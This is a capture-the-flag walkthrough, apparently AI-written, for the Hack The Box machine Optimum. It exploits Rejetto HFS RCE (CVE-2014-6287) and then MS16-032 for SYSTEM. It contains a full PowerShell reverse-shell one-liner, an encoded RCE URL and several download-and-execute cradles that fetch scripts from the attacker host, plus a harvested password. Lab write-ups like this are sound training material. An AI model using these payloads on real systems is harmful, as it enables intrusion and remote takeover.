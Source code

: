 Here’s a clean walkthrough for **HTB: Optimum**, following your preferred structure with command sequences and annotations. ✅

---

# 🚀 HTB: Optimum Walkthrough

**Machine Info:**
- **IP**: `10.10.10.8`
- **OS**: Windows Server 2012 R2 (64-bit)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
  - **RCE**: [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) – Rejetto HFS 2.3.x
  - **PrivEsc**: [CVE-2016-0099](https://nvd.nist.gov/vuln/detail/CVE-2016-0099) – MS16-032

---

## 🧭 Recon

### 🔍 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.8
```

### 🎯 Service Detection
```bash
nmap -p 80 -sCV -oA scans/nmap-tcpscripts 10.10.10.8
```

**Result:**
- Port `80` open
- Service: `HttpFileServer 2.3`

---

## 🌐 [Web Recon – HFS](HTTP)

### 🕵️ Vulnerability Check
```bash
searchsploit httpfileserver
```

**Finding:**  
`Rejetto HttpFileServer 2.3.x - Remote Command Execution` → [CVE-2014-6287](https://www.exploit-db.com/exploits/49125)

---

## 🧨 Initial Access – kostas

### 🔧 Exploit Trigger (PowerShell Reverse Shell)
**Prep Nishang One-liner:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Start server:
```bash
python3 -m http.server 80
```

Trigger via encoded URL:
```http
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').}
```

### 🛰️ Netcat Listener
```bash
rlwrap nc -lnvp 443
```

**Shell Received:**
```powershell
whoami
optimum\kostas
```

### 🏁 User Flag
```powershell
type C:\Users\kostas\Desktop\user.txt.txt
```

---

## 🧱 Privilege Escalation – SYSTEM

### 🧬 Confirm Architecture
```powershell
[Environment]::Is64BitProcess
True
```

### 🪪 Credential Reuse
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
> Found: `kostas : kdeEjDowkS*` (but already logged in as kostas)

---

### 🔍 Kernel Exploit Enumeration – Sherlock
**Upload & execute:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
Find-AllVulns
```

**Findings:**
- MS16-032 → CVE-2016-0099 – ✅ Vulnerable
- MS16-034 / MS16-135 → also show as potentially vulnerable

---

### 🧬 Exploit MS16-032

**Exploit Script Used:**
`Invoke-MS16032.ps1` (modified from [FuzzySecurity](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1))

Append to script:
```powershell
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/rev.ps1')"
```

**Run from PowerShell:**
```powershell
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
```

### ⚡ SYSTEM Shell
```powershell
whoami
nt authority\system
```

### 🏁 Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Lessons Learned

### 🪞 Initial Access
- HFS 2.3.x is vulnerable to RCE via `/?search=%00{.exec|...}`
- Using PowerShell cradles with `downloadString` is an effective and fast method to gain shells on legacy boxes.

### 🔓 PrivEsc Takeaways
- Kernel exploits like **MS16-032** remain valid for unpatched boxes.
- Use **Sherlock** or **Watson** (older machines might not support Watson’s .NET dependencies).
- Watch out for **process architecture** (32-bit shells won’t work for 64-bit kernel exploits).
